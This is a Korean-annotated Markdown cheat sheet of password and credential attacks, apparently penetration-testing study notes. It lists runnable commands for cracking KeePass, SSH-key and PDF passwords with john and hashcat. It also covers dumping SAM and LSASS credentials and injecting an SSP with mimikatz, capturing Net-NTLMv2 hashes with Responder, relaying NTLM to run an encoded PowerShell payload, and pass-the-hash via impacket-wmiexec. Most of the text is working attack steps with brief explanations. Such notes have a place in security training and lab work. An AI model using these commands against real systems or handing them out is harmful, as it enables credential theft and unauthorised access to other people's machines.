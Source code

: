 # KeePass Password Cracking

``` powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- C 드라이브 전체에서 `.kdbx` 확장자를 가진 파일을 재귀적으로 검색.
- `-ErrorAction SilentlyContinue` 옵션은 접근 권한 오류 메시지를 숨김.

``` bash
keepass2john Database.kdbx > keepass.hash
```
``` bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
```
login with master password
```

---
 
# SSH Private Key Passphrase Cracking

``` bash
ssh2john id_rsa > ssh.hash
```
``` bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
``` bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

---

# Cracking NTLM
``` bash
.\mimikatz.exe
```
``` bash
privilege::debug
```

- `privilege::debug` 명령은 디버그 권한을 활성화합니다.
- 이 권한이 있어야 LSASS 프로세스에 접근하여 자격 증명을 덤프할 수
    있습니다.

``` bash
token::elevate
```

-   토큰을 SYSTEM 권한으로 상승시켜, 보안 제한 없이 시스템 자원에
    접근합니다.


``` bash
lsadump::sam
```

-   SAM(Security Account Manager) 데이터베이스에서 사용자 계정의 해시를
    추출합니다.
-   출력된 해시는 `USERNAME:RID:LM_HASH:NTLM_HASH::: 형식`입니다.


``` bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

---
# Cracking Net-NTLMv2
``` bash
sudo responder -I tap0
```

-   Responder는 NTLM 인증 요청을 가로채서 해시를 수집하는
    도구입니다.
-   `-I tap0` : 사용할 네트워크 인터페이스 지정 (예: `eth0`, `wlan0`,
    `tap0`)
- Responder는 SMB, HTTP, FTP 등 프로토콜을 이용한 인증 요청에
응답해, 클라이언트가 보낸 Net-NTLMv2 해시를 캡처합니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유 경로에 접근하게 하여 인증 절차를 유도합니다.
-   이 과정에서 NTLM 인증이 발생하며, Responder가 해시를 가로챕니다.

> 예: 사용자가 `dir \\192.168.119.2\test` 명령을 실행하면, SMB 인증
> 요청이 발생.

``` bash
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
---
# Relaying Net-NTLMv2
``` bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

-   **impacket-ntlmrelayx**: NTLM 인증을 다른 서비스로 릴레이하여 권한을
    획득하는 도구입니다.
-   `--no-http-server` : HTTP 서버 기능 비활성화 (SMB 릴레이만 사용)
-   `-smb2support` : SMBv2 프로토콜 지원 활성화
-   `-t 192.168.50.212` : 릴레이할 타겟 서버 IP
-   `-c "powershell -enc ..."` : 인증 성공 시 실행할 명령 (여기서는
    Base64 인코딩된 PowerShell 명령)

- 공격자는 Net-NTLMv2 인증 요청을 가로채서, 이를 SMB 서비스가 열려 있는
다른 타겟으로 전달합니다.
타겟이 해당 인증을 신뢰하면, 명령 실행 권한을 얻게 됩니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유에 접근하게 하여 SMB 인증을
    유도합니다.
-   인증 요청은 공격자의 시스템을 거쳐 릴레이 타겟(`192.168.50.212`)로
    전달됩니다.
-   인증이 성공하면 지정한 PowerShell 명령이 타겟에서 실행됩니다.

---
# Windows Credential Guard enabled
## 1. 시스템 정보 확인

``` powershell
Get-ComputerInfo
```

-   현재 시스템의 OS 버전, 빌드 번호, 보안 설정 등을 확인합니다.
-   Credential Guard가 활성화되어 있는지 파악하는 데 도움이 됩니다.

## 2. Mimikatz 실행

``` bash
.\mimikatz.exe
```

## 3. 디버그 권한 획득

``` bash
privilege::debug
```

-   SeDebugPrivilege를 활성화하여 LSASS 등의 민감한 프로세스에 접근할 수
    있도록 합니다.
-   관리자 권한 필요.

## 4. 자격 증명 추출 시도

``` bash
sekurlsa::logonpasswords
```

-   현재 로그인된 세션의 사용자 이름, 도메인, 해시, 평문 비밀번호 등을
    덤프합니다.

-   **주의**: Credential Guard 활성화 시 평문 비밀번호 추출이 제한될 수
    있습니다.


## 5. Impacket을 이용한 원격 명령 실행

``` bash
impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
```


## 6. MemSSP(메모리 보안 지원 공급자) 주입

``` bash
misc::memssp
```

-   Mimikatz의 `memssp` 모듈은 LSASS에 SSP(Security Support Provider)를
    주입하여 이후 로그인 자격 증명을 `mimilsa.log` 파일에 기록하게
    합니다.
-   새로운 로그인 시도가 발생하면 해당 자격 증명이 평문으로 로깅됩니다.

------------------------------------------------------------------------

## 7. 캡처된 자격 증명 확인

``` bash
type C:\Windows\System32\mimilsa.log
```

-   MemSSP로 캡처된 평문 자격 증명을 확인합니다.
---
# Cracking pdf password
```bash
pdf2john Infrastructure.pdf > pdf.hash

john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 pdf.hash
```
